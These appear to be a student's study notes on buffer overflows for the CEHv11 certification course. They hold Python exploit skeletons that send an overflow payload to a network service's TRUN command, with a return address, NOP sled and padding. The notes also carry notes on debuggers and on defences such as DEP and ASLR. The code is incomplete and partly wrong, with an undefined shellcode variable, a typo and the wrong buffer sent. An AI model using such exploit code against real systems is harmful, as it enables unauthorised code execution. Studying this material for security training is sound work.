     Filename: eccouncil-ceh31250-v11-6-6-1-exploitation-buffer-overflows.md
    Show Name: CEHv11 (312-50)
    Topic Name: System Hacking Phases and Attack Techniques - System Hacking
    Episode Name: Exploitation: Buffer Overflows ================================================================================


#EXAMPLES AT THE BOTTOM
Exploitation: Buffer Overflows
Objectives:

    Summarize the concepts of a Buffer Overflow
    List common tools and techniques used in Buffer Overflow exploit development
    List common protections used to prevent Buffer Overflows

    What is a buffer overflow?
        Improper memory space allocation
        No bounds checking
        Allows data allocated for one memory space to spill over into another
            If this can be controlled, arbitrary code execution can be achieved
    What kind of tools are used to create a buffer overflow?
        
	Network Sniffers
        
	Debuggers
	
	Spike (so we can pick up where we left off)
        
	Programming languages


    Walk us through a simple buffer overflow

#!/usr/bin/env python3

import socket                      # importing the python socket function to open a tcp connection

RHOST = ("192.32.32.3")		# ip address of the remote host or target machine you are sending payload to
RPORT = 8888			# Open port you want to connect over 

BUFF = "A" * 2004		# variable named BUFF that is being filled up with 2004 capitol "A"'s
EIP = b"\xaf\x11\x50\x62"	# "EIP" is a CPU register for the system. and we are feeding a memmory space which he found using a debugger
NOPS = b"\x90" * 16		# "NOPS" are null bites that help ease the machine through register jumps
PAD = b"C" * 625		#  the variabel "PAD" is just filling intself with 625 capitol "C"'s. He is filling in the buffer with padding to make sure the overflow occurrs.

				

#PATTERN = b " ..."


		 He also uses msfvenom to generate a hexidecimal paylaod. Copy and paste of course.
.
.
.
.
PAYLOAD = b"TRUN /.:/" + BUFF + EIP + NOPS + buf + PAD

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((RHOST, RPORT))
s.send(PAYLOAD)


#NOTE: The < TRUN /.:/ > command was the command over the network service that was susseptible to the buffer overflow which allowed him to
# send input into the system. This was all done through a command. TRUN /.:/   is the crux to the whole code

----------------------------------------------------------------------------------------------------------------------------------------------
WHAT YOU NEED TO DO TO CREATE BEGIN CREATING A BUFFER OVERFLOW.

1. Download a local copy of the service that is running on the server.( you have to recreate the environment exactly if you want to exploit to work across all machines.)
2. You need to download a debugger to run the service in the identical environment to that of the machine you wish to exploit

# I.E.

1. grab a copy of and OS
2. find a client that allows you to send input. like ssh or ftp or any cient that allows you to send input data into the system 
3. Set it up in the debugger so that it is running the same way as the target machine.


STEPS TO OPEN IT UP

1. Start the instance of your OS you want to play with
2. Fire up immunity (your choice debugger)
3. Select File  - Attach  - look for the service you want to attach to 
4. Select attach and everything should load into the debugger.


    How can we protect against buffer overflows?
        DEP (Data Execution Protection)
        ASLR (Address Space Layout Randomization)
	- this can stop you from making a buffer overflow that works for more then that one computer.
	- The overflow works because we are able to predict where at in the stack the pointer is and where it is going to be.
	- This system makes it so that the stack in every version of that OS is randomized. Which means If the address for this portion
	- of memory was here on this machine and its somewhere else on another. The exploit will only work on the machine it was created on

        Static code analysis
        Safe coding practices



=============================================================================================================================================

# What is a buffer overflow?

If the program is overloaded with data and has NOT been programed on what to do in this situation, we could find ourselves in a crash situation.

What makes buffer overflows encompass so much is in part that the overflow is just one element to the puzzle.
	- What you overflow it with (numbers/character/special characters)
	- When you overflow it (conditional statement)
	- And What your asking it to do upon the overflow. (Leak/execute/write code)
So our goal is to control these elements or even predict them to get the machine to spill/leak code and even execute code for us.
If we can control the elements in a perfect storm we can typically cause a buffer overflow one way or another.

# If I can put my malicious arbitrary code in the over flowed area, the machine is going to execute that memory area next. So 
# that means that I will get my code executed instead of the 'actual' instruction being executed.

	So the idea behind a buffer overflow is that we are overflowing from one memory area into another and controling the execution
	of data in those areas.

So for testing you would fire this off while the program was loaded in the debugger and try locating the overflow.
Dan found out after working with the debugger and testing that the overflow was located at the 2003rd "A"
So this is where we would want to put our malicious code NOPS and PAD. 



#EXAMPLE

#!/usr/bin/env python3

import socket

RHOST = ("10.0.0.1")
RPORT = 9999

BUFF = b"A" * 3000
PAYLOAD = b"TRUN /.:/" + BUFF

s.socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect((RHOST, RPORT))
s.send(BUFF)












